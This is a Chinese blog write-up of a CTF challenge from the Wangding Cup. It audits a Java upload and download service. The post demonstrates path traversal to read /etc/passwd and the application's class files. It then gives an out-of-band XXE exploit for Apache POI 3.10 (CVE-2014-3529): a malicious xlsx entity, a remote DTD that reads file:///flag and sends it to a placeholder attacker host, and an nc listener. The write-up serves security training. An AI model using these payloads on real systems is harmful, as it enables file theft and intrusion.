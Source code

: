 ```yaml
---
layout:     post             
title:      Flag{网鼎杯之java代码审计入门}
date:       2023-07-31           
author:     sule01u                  
head-img:   img/unix-linux.jpg
catalog: true                      
tags:      
   - 漏洞复现
typora-root-url: ../img/cve-2018-12613
---
```


# Flag{网鼎杯之java代码审计入门}

### 一、赛题截图

![image-20230730181311006](https://p.ipic.vip/5pzc0q.png)

### 二、接口测试

1. 我们先上传文件抓包，发送到repeter

   ![image-20230730181727635](https://p.ipic.vip/c7sbde.png)

   响应如下

   ![截屏2023-07-30 18.27.06](https://p.ipic.vip/j85vbz.png)

2. 我们使用下载接口去下载一个不存在的文件，回显“资源被删除”![image-20230730182626919](https://p.ipic.vip/xdifjt.png)

		- 说明系统可能去查找了这个文件，那我们能不能去下载/etc/passwd文件，但是还不知道相对路径是啥

### 三、任意文件读取漏洞验证

  - 那我们去测试一下下载文件夹

    ![image-20230731013406841](https://p.ipic.vip/bsem8n.png)

- 我们根据路径可以推测到/etc/passwd文件路径

  ```
  1. 上传文件的路径为
  /usr/local/tomcat/webapps/file_in_java/WEB-INF/upload/0/10/上传文件名
  
  2. 那/etc目录是跟/usr一层级的,上图有九层目录，应该回退九层
  /usr/local/tomcat/webapps/file_in_java/WEB-INF/upload/0/10/../../../../../../../../../etc/passwd
  
  3. 则我们下载文件的参数应该为
  ../../../../../../../../../etc/passwd
  ```

- 根据上面推理构造请求，成功获取/etc/passwd文件内容，yeah

  ![image-20230730184024947](https://p.ipic.vip/7zqvoh.png)

3. 拿到了/etc/passwd的文件内容有什么用，怎么才能getshell啊

   > 通过上面的一些测试，我们可以知道任意文件下载的漏洞存在该系统, 上传shell也无法执行
   >
   > 那我们只能看看能不能拿到源码审计看看了

- 通过暴露的上传文件存储的路径得知web服务器为tomcat

  `/usr/local/tomcat/webapps/file_in_java/WEB-INF/upload/0/10/`

- 前置知识

  Tomcat的web.xml是一个XML文件，**用于配置Web应用程序的部署信息和其他相关配置**。 它通常位于Web应用程序的WEB-INF目录下。 web.xml文件中包含了大量的配置信息，其中最重要的是Web应用程序的servlet、过滤器和监听器等组件的配置，是tomcat的核心配置文件。

- 读取web.xml文件，可以看到有三个接口类

  ![image-20230730193751174](https://p.ipic.vip/hqqsrw.png)

- 拿到接口class文件,根据tomca结构，我们知道class文件都在WEB-INF目录下

  构造路径`../../../../../../../../../../usr/local/tomcat/webapps/file_in_java/WEB-INF/classes/具体类路径`,成功获取文件内容

  ![image-20230730195933666](https://p.ipic.vip/8dnwpl.png)

- 浏览器通过下载三个类文件,如下图所示

  ![image-20230730200123970](https://p.ipic.vip/ca1jp9.png)

### 四、代码审计

> idea打开这几个class文件

- 查找flag关键词，文件名只要包含flag字符就会被ban

  ![image-20230730201346435](https://p.ipic.vip/2id3uz.png)

- 看看其他文件有没有能够下手的地方

  - ListFileServlet.class文件，只是返回保存的文件名作用，应该是通过上传接口完成之后调用的

    ![image-20230730201850058](https://p.ipic.vip/tokr5q.png)

  - 仅剩UploadServlet接口了，发现可疑的一段代码，里面提到了xlsx文件格式，好像做了不一样的处理

    ![image-20230730202234209](https://p.ipic.vip/p2wjah.png)我们让chatgpt给我们解释一下代码啥意思啊！

    > 首先说一句chatgpt真香啊
    >
    > 关注图片标红部分，说明我们要通过一个excel-xx.xlsx文件利用apache poi库搞事情

    ![image-20230730202533041](https://p.ipic.vip/pnou04.png)

### 五、Apache POI库漏洞利用

> Apache [POI](https://so.csdn.net/so/search?q=POI&spm=1001.2101.3001.7020) 简介是用Java编写的免费开源的跨平台的 Java API，Apache POI提供API给Java程式对Microsoft Office（Excel、WORD、PowerPoint、Visio等）格式档案读和写的功能

- 即然用到了POI库，那我们看看这个库是否有漏洞存在！代码中给出的POI库版本为3.10，是否有漏洞，google一下你就知道

  ```
  CVE-2014-3529       apache poi 在3.10.1之前存在XXE漏洞
  ```

- 复现CVE-2014-3529

  - 新建一个excel文件并解压（linux unzip命令即可解压 ‘.xlsx’ 文件）

    ```shell
    mkdir tmp_excel       //新建一个目录存放解压后的文件目录
    touch 1.xlsx           //新建一个excel文件
    unzip 1.xlsx  -d tmp_excel      //解压到指定目录
    cd tmp_excel                    //进入目录
    ls                              //查看解压后的文件
    ```

    解压后的效果如下图所示：

    ![截屏2023-07-30 21.36.45](https://p.ipic.vip/dglghv.png)

  - 在[Content_Types].xml文件中添加payload，(在第一句和第二句中间添加下面给出的payload)

  > **payload解释**
  >
  > 代码中的实体 `remote` 定义了一个外部实体，其系统标识符（System Identifier）为 "http://your-remote-ip/file.dtd"。然后，通过 `%remote;` 引用了这个实体，将其包含到当前XML文档中。然后通过该外部实体 `%int;` 和 `%send;` 执行一些操作

  ```xml-dtd
   <!DOCTYPE convert [
   <!ENTITY % remote SYSTEM "http://you-remote-ip/file.dtd">
   %remote;%int;%send;
   ]>
  ```

  效果如图所示

  ![截屏2023-07-30 21.23.33](https://p.ipic.vip/8mebez.png)

  - 打包回xlsx文件,根据前面的代码分析，文件名得为excel-x.xlsx

    ```
    zip excel-1.xlsx ./*
    ```

  - 去我们的远程服务器编辑一个file.dtd

    > payload解释
    >
    > 1. `%file` 定义了一个实体，通过 `file:///flag` 指定为一个文件路径。读取本地文件系统上的 `flag` 文件。
    > 2. `%int` 定义了另一个实体，通过 `http://your-ip:port?popko=%file;` 将读取到的文件内容发送给指定的IP地址和端口，我们通过nc在该ip所在服务器上监听这里指定的端口。
    >
    > 3. 目的是读取 `flag` 文件，并将其内容发送到指定的服务器上。

    ```dtd
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://your-ip:port?popko=%file;'>">
    ```

    远程服务器80端口启动http服务，使通过http://your-remote-ip/file.dtd能访问到file.dtd资源

  - nc监听端口，准备接受flag文件内容

    ```
    nc -lvvnp port        //port为你file.dtd里指定的端口
    ```

- 上传xlsx文件测试

  ![image-20230731013600470](https://p.ipic.vip/mcdzk7.png)

  http服务成功接收到file.dtd的请求

  ![image-20230730220550321](https://p.ipic.vip/6xgu9h.png)

  nc成功收到flag文件的内容

  ![image-20230730220348251](https://p.ipic.vip/hnmcmm.png)

### 六、总结

- 任意文件下载(读取)
- Apache POI XXE

> 脚踏实地的每天进步一点点，不跟别人相比，只超越自己就够了。